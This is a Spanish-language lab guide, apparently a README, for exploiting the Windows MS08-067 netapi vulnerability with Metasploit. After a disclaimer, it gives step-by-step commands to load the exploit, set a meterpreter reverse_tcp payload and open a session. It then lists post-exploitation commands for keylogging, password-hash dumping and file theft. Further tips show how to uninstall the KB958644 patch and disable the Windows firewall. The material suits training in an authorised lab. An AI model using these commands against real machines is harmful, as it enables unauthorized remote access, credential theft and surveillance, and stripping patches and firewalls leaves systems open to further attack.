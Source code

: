 # 🛡️ **Guía para Explotar MS08-067 con Metasploit**

________________________________________
## ⚠️ **Aviso Legal / Disclaimer**
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
________________________________________

Esta guía explica paso a paso cómo explotar la vulnerabilidad MS08-067 (netapi) usando Metasploit Framework. Solo debe usarse con fines educativos o en entornos de laboratorio controlado. Explotar sistemas sin permiso es ilegal.

## 🛡️ **¿Qué es MS08-067?**
- Vulnerabilidad crítica en el servicio Server (netapi32.dll) de Windows.
- Permite ejecución remota de código sin autenticación.
- Afecta Windows XP SP2/SP3 y Server 2003 sin parches.
- Fue utilizada por el gusano Conficker.

## 🧰 **Requisitos del entorno de laboratorio**
- Kali Linux (máquina atacante). https://www.kali.org/get-kali/#kali-platforms
- Máquina víctima: Windows XP SP2/SP3 sin parches. https://archive.org/details/windows-xp-sp-2-september-2008
- Máquina víctima: Linuix (opcional). https://sourceforge.net/projects/metasploitable/
- Ambas en la misma red (real o virtual).

## 🧪 **Paso a paso: Explotación con Metasploit**

**1. Obtener la IP de la víctima** (en la máquina Windows)
<pre>ipconfig.</pre>

**2. Iniciar Metasploit** (en Kali)
<pre>msfconsole</pre>

**3. Buscar el exploit**
<pre>search ms08_067</pre>

**4. Cargar el exploit**
<pre>use exploit/windows/smb/ms08_067_netapi</pre>

**5. Ver opciones**
<pre>show options</pre>

**6. Configurar opciones**
<pre>set RHOST [IP víctima]</pre>
<pre>set LHOST [IP atacante]</pre>
<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

**7. Verificar configuración**
<pre>show options</pre>

**8. Ejecutar exploit**
<pre>exploit</pre>

**Resultado esperado**
<pre> Meterpreter session 1 opened </pre> 
Se abre una shell Meterpreter si tuvo éxito.

## 🧠 **¿Qué hacer con Meterpreter?**
- **sysinfo:** Info del sistema.
- **getuid:** Usuario actual.
- **shell:** Abre terminal.
- **download archivo:** Descargar archivo.
- **screenshot:** Captura de pantalla.
- **keyscan_start:** Inicia keylogger.
- **hashdump:** Extrae hashes de contraseñas.

## ❌ **Consejos adicionales**

-Para verificar si el Windows XP es vulnerable:
<pre> nmap -p 445 --script smb-vuln-ms08-067 <IP_víctima> </pre>

- Verificar si el parche MS08-067 esta instalado:
<pre> systeminfo | find "KB958644" </pre>

- En caso de estar instalado usar el siguiente comando para desinstalarlo:
<pre> wusa /uninstall /kb:958644 </pre>

- Desactivar firewall de Windows:
<pre> netsh firewall set opmode disable </pre>
